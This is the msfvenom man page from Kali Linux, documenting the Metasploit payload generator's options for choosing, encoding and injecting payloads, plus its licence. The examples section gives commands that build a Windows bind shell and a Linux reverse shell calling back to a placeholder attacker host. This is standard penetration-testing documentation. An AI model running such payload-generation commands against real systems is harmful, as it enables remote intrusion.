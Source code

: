 .TH MSFVENOM 1 "July 23, 2015" "4.11.4" "Metasploit Framework - msfvenom"
.SH NAME
msfvenom - Payload Generator and Encoder
.SH SYNOPSIS
msfvenom [options] <var=val>
.SH DESCRIPTION
.B
Msfvenom 
is a combination of Msfpayload and Msfencode, putting both of these tools into a single Framework instance. Msfvenom has replaced both msfpayload and msfencode as of 
.B
June 8th, 2015.
.SH OPTIONS
.PP
-p, --payload [payload]	Payload to use. Specify a '-' or stdin to use custom payloads
.br
    --payload-options	List the payload's standard options
.TP
-l, --list  [module_type]   
List a module type example: payloads, encoders, nops, all
.TP
-n, --nopsled  [length]        
Prepend a nopsled of [length] size on to the payload
.TP
-f, --format  [format]        
Output format (use --help-formats for a list)
.TP
--help-formats               
List available formats
.TP
-e, --encoder  [encoder]       
The encoder to use
.TP
-a, --arch  [architecture]  
The architecture to use
.TP
--platform   [platform]      
The platform of the payload
.br
Cisco or cisco, OSX or osx, Solaris or solaris, BSD or bsd, OpenBSD or openbsd, Firefox or firefox, BSDi or bsdi, NetBSD or netbsd, NodeJS or nodejs, FreeBSD or freebsd, Python or python, AIX or aix, JavaScript or javascript, HPUX or hpux, PHP or php, Irix or irix, Unix or unix, Linux or linux, Ruby or ruby, Java or java, Android or android, Netware or netware, Windows or windows
.PP
-s, --space [length]
The maximum size of the resulting payload
.br
    --encoder-space [length] 
      The maximum size of the encoded payload (defaults to the -s value)
.TP
-b, --bad-chars  [list]          
The list of characters to avoid example: '\x00\xff'
.TP
-i, --iterations  [count]         
The number of times to encode the payload
.TP
-c, --add-code  [path]          
Specify an additional win32 shellcode file to include
.TP
-x, --template  [path]          
Specify a custom executable file to use as a template
.TP
-k, --keep                       
Preserve the template behavior and inject the payload as a new thread
.TP
-o, --out  [path]              
Save the payload
.TP
-v, --var-name  [name]
Specify a custom variable name to use for certain output formats
.TP
--smallest
Generate the smallest possible payload
.TP
-h, --help                       
Show this message
.TP
--help-formats               
List available formats
.SH EXAMPLE
msfvenom --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b "\x00" -f python
.br
msfvenom --platform linux -p linux/x86/shell/reverse_tcp LHOST=w.z.y.z LPORT=443 -b "\x00" -f elf -o file.bin
.br


For more examples visit
.B
https://www.offensive-security.com/metasploit-unleashed/msfvenom
.SH SEE ALSO
msfcli(1) -
.I
deprecated
-
.br
msfconsole(1)
.br
msfpayload(1) -
.I
deprecated
-
.br
msfencode(1) -
.I
deprecated
-
.SH AUTHOR(S)
.TP
.B
Creator
HD Moore - @hdmoore / hdm@metasploit.com
.br
Man Page Author: Kali Linux\*(Tm
File man page bug reports at 
.B
https://bugs.kali.org
.SH COPYRIGHT
Copyright (C) 2006-2015, Rapid7 Inc.
All rights reserved.

Redistribution and use in source and binary forms, with or without modification,
are permitted provided that the following conditions are met:
.TP
* 
Redistributions of source code must retain the above copyright notice, this list of conditions and the following disclaimer.
.TP
* 
Redistributions in binary form must reproduce the above copyright notice, this list of conditions and the following disclaimer in the documentation and/or other materials provided with the distribution. 
.TP
* 
Neither the name of Rapid7 LLC nor the names of its contributors may be used to endorse or promote products derived from this software without specific prior written permission.

THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS "AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE COPYRIGHT OWNER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE. 

The Metasploit Framework is provided under the 3-clause BSD license above.

The copyright on this package is held by Rapid7 LLC.

This license does not apply to several components within the Metasploit
Framework source tree.  For more details see the LICENSE file.
